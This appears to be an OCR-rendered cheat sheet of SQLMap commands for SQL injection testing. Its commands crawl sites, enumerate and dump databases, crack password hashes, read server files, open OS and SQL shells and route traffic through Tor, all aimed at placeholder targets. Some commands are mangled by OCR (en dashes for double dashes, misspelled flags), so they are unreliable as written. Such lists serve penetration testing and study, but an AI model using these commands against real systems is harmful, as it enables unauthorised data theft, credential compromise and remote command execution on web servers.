     -   SQLMap Examples

> **Crawl the links**  
> sqlmap -u http://$ip --crawl=1  
> sqlmap -u http://meh.com --forms --batch --crawl=10
> --cookie=jsessionid=54321 --level=5 --risk=3  
> **SQLMap Search for databases against a suspected GET SQL Injection
> point ‘search’**  
> sqlmap –u http://$ip/blog/index.php?search –dbs
>
> **SQLMap dump tables from database oscommerce at GET SQL injection
> point ‘search’**  
> sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables
> –dumps  
> **SQLMap GET Parameter command**  
> sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump
> -threads=5  
> **SQLMap Post Username parameter**  
> sqlmap -u http://$ip/login.php --method=POST
> --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
> --level=5 --dbms=MySQL --dump-all  
> **SQL Map OS Shell**  
> sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  
> sqlmap -u http://$ip/login.php --method=POST
> --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
> --level=5 --dbms=MySQL --os-shell  
> **Automated sqlmap scan**  
> sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  
> --level=3 --current-user --current-db --passwords  
> --file-read="/var/www/blah.php"  
> **Targeted sqlmap scan**  
> sqlmap -u "http://meh.com/meh.php?id=1"  
> --dbms=mysql --tech=U --random-agent --dump  
> **Scan url for union + error based injection with mysql backend  
> and use a random user agent + database dump  
> **sqlmap -o -u http://$ip/index.php --forms --dbs  
> sqlmap -o -u "http://$ip/form/" --forms  
> sqlmap check form for injection  
> sqlmap -o -u "http://$ip/vuln-form" --forms  
> -D database-name -T users --dump  
> sqlmap dump and crack hashes for table users on database-name.
>
> Enumerate databases  
> sqlmap --dbms=mysql -u "$URL" --dbs  
> Enumerate tables from a specific database  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  
> Dump table data from a specific database and table  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump  
> Specify parameter to exploit  
> sqlmap --dbms=mysql -u
> "http://www.example.com/param1=value1&param2=value2" --dbs -p param2  
> Specify parameter to exploit in 'nice' URIs  
> sqlmap --dbms=mysql -u
> "http://www.example.com/param1/value1\*/param2/value2" --dbs \#
> exploits param1  
> Get OS shell  
> sqlmap --dbms=mysql -u "$URL" --os-shell  
> Get SQL shell  
> sqlmap --dbms=mysql -u "$URL" --sql-shell  
> SQL query  
> sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT \*
> FROM $TABLE;"  
> Use Tor Socks5 proxy  
> sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL"